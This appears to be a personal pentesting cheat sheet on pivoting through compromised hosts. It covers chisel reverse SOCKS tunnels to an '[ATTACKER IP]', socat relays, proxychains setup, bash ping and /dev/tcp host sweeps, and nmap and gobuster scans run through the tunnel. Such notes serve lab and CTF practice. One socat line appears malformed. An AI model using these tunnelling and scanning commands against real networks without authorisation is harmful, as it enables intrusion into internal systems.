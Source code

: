 # Pivoting




## Ligolo
- <https://github.com/nicocha30/ligolo-ng>
- <https://www.youtube.com/watch?v=qou7shRlX_s>





## SSHuttle
- <https://www.youtube.com/watch?v=1BLAeXOQOl4>





## socat
./socat TCP:LISTEN:3000,reuseaddr,fork TCP:127.0.0.1:3000

## chisel
- <https://github.com/jpillora/chisel>

Note: depending on the environment, the latest version may not work.

```
# listen from attacker machine
chisel server --reverse -p [PORT NUMBER]

# from victim machine 1
chisel client [ATTACKER IP]:[PORT NUMBER] R:socks


```



### Proxychains
- dynamic_chain: Uses proxies in the order they appear in the list. All proxies in the chain must be available.
- random_chain: Chooses a random proxy from the list for each connection.
- static_chain: Uses proxies in the exact order they are listed.


unset `strict_chain`` and set `dynamic_chain` in `/etc/proxychains.conf`
at the end of proxychains.conf add `socks5 127.0.0.1 [tunnel PORT]`
Note: Tunnel port is 1080 by default
also in the firefox:
- manual proxy configuration > Sock Host: 127.0.0.1 Port: [tunnel PORT]
or
- set foxy proxy
or
- launch it using `proxychains -q firefox`	









## Enumeration

### see active hosts pwned machines
```bash

hostname -I


# script 1
#!/bin/bash
for i in {1..255}; do
        timeout 1 bash -c "ping -c 1 20.20.20.$i" >/dev/null
        if [ $? -eq 0 ]; then
                echo "El host 20.20.20.$i está activo"
        fi
done


# script 2 (in case ping is not installed)
#!/bin/bash

for host in $(seq 1 254); do
	timeout 1 bash -c "echo '' > /dev/tcp/30.30.30.$host/80 &> /dev/null" &&
	echo "30.30.30.$host";
done; wait
	
```

### nmap
```

proxychains nmap -sn -n x.x.x.0/24 
sudo proxychains -q nmap -p [PORT NUMBER] -sCVT -Pn -n [IP]	
proxychains nmap -sCVT 20.20.20.0/24 2>/dev/null
```



### gobuster
```
gobuster dir -u http://20.20.20.3 \
	-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
	-x php,doc,html,txt \
	--proxy socks5://127.0.0.1:1080
```










## Socat




Scenario: this machine(n2) is the pivot and want to redirect the chisel client to the attacker chisel server listening on port 1234 on machine(n1)
```
# on machine n3
chisel client [IP machine n2]:1111 R:1111:socks
# on machine n2
socat TCP-LISTEN:1111,fork TCP:1111:1234
# on machine n1
echo -e "socks5 127.0.0.1 1111" | sudo tee -a /etc/proxychains4.conf
```
